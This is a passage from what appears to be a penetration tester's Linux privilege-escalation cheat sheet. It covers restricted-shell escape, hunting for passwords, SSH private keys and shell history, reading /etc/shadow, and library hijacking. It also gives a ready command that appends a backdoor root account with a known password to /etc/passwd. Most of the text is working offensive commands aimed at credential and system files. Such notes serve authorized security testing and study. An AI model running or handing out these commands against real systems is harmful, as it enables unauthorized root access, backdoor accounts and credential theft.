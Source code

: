 #### Escape restricted shells

- https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells?slide=6

#### Password Hunting

Keywords to try : pass, secret, key...
```
find . # From user, opt or web server directories
grep --color=auto -rnw '/' -ie "PASSWORD=" --color=always 2>/dev/null
find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
find / -name *.txt 2>/dev/null
```
SSH
```
find / -name authorized_keys 2>/dev/null
find / -name id_rsa 2>/dev/null
```
History files
```
cat ~/.*history | less
```
Also take a look at config files.

#### Weak File Permissions

Shadow file : Crack hash if readable. Generate password if writable, then replace root password in the shadow file and su root.
```
ls -l /etc/shadow
cat /etc/shadow 
mkpasswd -m sha-512
```

Passwd file : Generate password if writable, then replace the "x" in second field by the password generated and su root.
```
ls -l /etc/passwd
openssl passwd newpasswordhere


echo newroot:YiV30ZoQz25SA:0:0:root:/root:/bin/bash >> /etc/passwd
# Connect using newroot:pentest
```

Lib directories : Craft a malicious libcustom library and replace it into /lib or /usr/lib. When executing /usr/bin/myexec, the malicious library will be called instead.
```
ls -l /lib
ls -l /usr/lib
```

#### Kernel Exploits

- https://github.com/lucyoa/kernel-exploits
